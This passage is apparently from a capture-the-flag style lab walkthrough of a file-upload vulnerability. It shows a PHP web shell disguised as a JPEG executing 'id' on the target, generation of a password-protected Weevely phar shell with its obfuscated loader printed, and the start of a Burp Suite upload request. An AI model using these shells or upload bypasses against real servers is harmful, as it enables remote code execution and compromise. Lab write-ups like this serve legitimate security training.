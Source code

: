 ```http
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 13:55:15 GMT
Server: nginx/1.4.6
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4061



<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a>📌                    </div>

[...]
```

`curl -X GET 'https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/uploads/shell.jpg/shell.php?cmd=id'`:
```html
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>🚩
```

`weevely generate 'password123' ./weevely_shell.jpg`:
```
Generated './weevely_shell.jpg' with password 'password123' of 692 byte size.
```

`file ./weevely_shell.jpg`:
```
./weevely_shell.jpg: PHP phar archive with SHA1 signature
```

`cat ./weevely_shell.jpg`:
```
<?php include "\160\x68\141\x72\72\57\57".basename(__FILE__)."\57\x78";__HALT_COMPILER(); ?>/x�X�S`z�U�Qk�0���+J�hBE׭�v5�{l{Wj��hMJ▒�S�����0��%�\�]>��_ECǰ�$��E�%Ia�夘��M��2JzTq�XUEGI(bD-'/�U}�����w�n���UG-�2�?Qpس��w�6RS�)47�PN�VKA����M�!�{      b4▒^а
                                                             �  � `&�)�����
v�Ի�������RU>�Z+��P8��d��4`XjF&Y�▒�����h'��(��<�fJ�GG�����/3��s�u��^6�.��X�p@���D�M��E��R�RR8��5���Ѓm����(dR��hd�{���H=������of��ViG    ��
,v�c��!A��0lA.�Z�z$���m.�GBMB
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------36226146085396895671660538828
Content-Length: 750
Origin: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
Referer: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
```